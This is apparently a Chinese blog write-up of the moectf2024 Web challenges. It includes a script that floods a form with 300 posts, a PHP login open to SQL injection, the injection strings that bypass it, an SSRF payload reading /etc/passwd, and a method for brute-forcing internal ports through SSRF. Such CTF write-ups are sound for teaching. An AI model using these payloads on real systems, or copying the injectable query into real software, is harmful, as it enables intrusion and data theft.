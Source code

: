 ```yaml
---
typora-root-url: ./moectf2024-Web-wp
title: moectf2024-Web-wp
toc: true
categories:
  - 技术
  - ctf
  - web
  - wp
date: 2024-10-10 22:15:08
tags: 
  - ctf
---
```


## web入门指北

phpstudy傻瓜式安装即可，鼓励大家自行搭建，然后附件源码放网站根目录（phpstudy默认一般是WWW），注意删除根目录下的index.php, 覆盖index.html, 因为默认配置访问根目录（GET /）index.php的优先级比index.html高，浏览器输入正确url访问即可回显flag

## ez_http

按要求做，做下一步时不要丢弃上一步的操作

![](img1.png)

## ProveYourLove

前端阻止重复提交，发包绕过, exp：

```python
//exp.py
import requests

url = 'http://127.0.0.1:53785/questionnaire'

data = {
    'nickname': 'xiaotian',
    'target': '333',
    'message': 'eeeeeeeeee',
    'user_gender': 'male',
    'target_gender': 'male',
    'anonymous': 'false'
}

for i in range(300):
    response = requests.post(url, json=data)
    print('Status Code:', response.status_code)
    print('Response JSON:', response.json())
```

电院_Backend

后台常用robots协议防止爬虫爬取，访问robots.txt发现存在/admin/, 

```
User-agent: *
Disallow: /admin/
```

访问/admin/发现后台，附件给了login.php源码

```php
<?php
error_reporting(0);
session_start();

if($_POST){
    $verify_code = $_POST['verify_code'];

    // 验证验证码
    if (empty($verify_code) || $verify_code !== $_SESSION['captcha_code']) {
        echo json_encode(array('status' => 0,'info' => '验证码错误啦，再输入吧'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $email = $_POST['email'];
    if(!preg_match("/[a-zA-Z0-9]+@[a-zA-Z0-9]+\\.[a-zA-Z0-9]+/", $email)||preg_match("/or/i", $email)){
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

    $pwd = $_POST['pwd'];
    $pwd = md5($pwd);
    $conn = mysqli_connect("localhost","root","123456","xdsec",3306);

    $sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
    $result = mysqli_query($conn,$sql);
    $row = mysqli_fetch_array($result);

    if($row){
        $_SESSION['admin_id'] = $row['id'];
        $_SESSION['admin_email'] = $row['email'];
        echo json_encode(array('status' => 1,'info' => '登陆成功，moectf{testflag}'));
    } else{
        echo json_encode(array('status' => 0,'info' => '管理员邮箱或密码错误'));
        unset($_SESSION['captcha_code']);
    }
}
?>
```

存在sql注入，登录成功即返回flag, 但是or被ban了，还有正则，验证码正常填，在email这里注入，密码随便填

绕过方法很多，简单列举

```sql
123@a.b' || 1=1 #
123@a.b' union select 1,2,3 -- 
```

## ImageCloud前置

经典的ssrf`payload: file:///etc/passwd`

## ImageCloud

随便传个文件，点击已上传文件查看，发现url中有`/image?url=http://localhost:5000/static/{filename}`

题目给了源码文件，5000端口映射在外网，但是app2.py运行在一个随机端口（5001-6000）需要借助ssrf爆破内网app2的端口

![](img2.png)

可以通过暴露出来的服务打ssrf爆破app2的运行端口，从而借助ssrf窃取内网app2的图片

![](img3.png)
